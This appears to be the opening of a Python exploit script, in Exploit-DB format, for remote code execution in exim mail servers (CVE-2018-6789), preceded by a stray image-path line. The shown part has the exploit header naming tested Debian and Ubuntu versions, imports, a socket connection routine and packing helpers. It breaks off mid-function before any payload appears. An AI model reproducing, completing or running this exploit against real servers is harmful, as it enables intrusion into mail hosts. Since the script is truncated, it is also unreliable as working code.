 EXP
---

    # Exploit Title: exim 4.90 - Remote Code Execution
    # Date: 2018-10-24
    # Exploit Author: hackk.gr
    # Vendor Homepage: exim.org
    # Version: exim < 4.90
    # Tested on: debian exim 4.89, ubuntu exim 4.86_2
    # CVE : CVE-2018-6789

    #!/usr/bin/python
    #debian exim 4.89
    #ubuntu exim 4.86_2
    import time
    import socket
    import struct
    import os
    import os.path
    import sys
    import ssl
    import random
    from multiprocessing import Process, Queue

    s = None
    f = None
    test = True
    rcpt_index_start = 0x120
    bufsize = 8200

    def connect(host, port):
       global s
       global f
       s = socket.create_connection((host,port))
       f = s.makefile("rw", bufsize=0)

    def p(v):
       return struct.pack("<Q", v)

    def readuntil(delim='\n'):
       data = ''
       auth_plain_available = False
       while True:

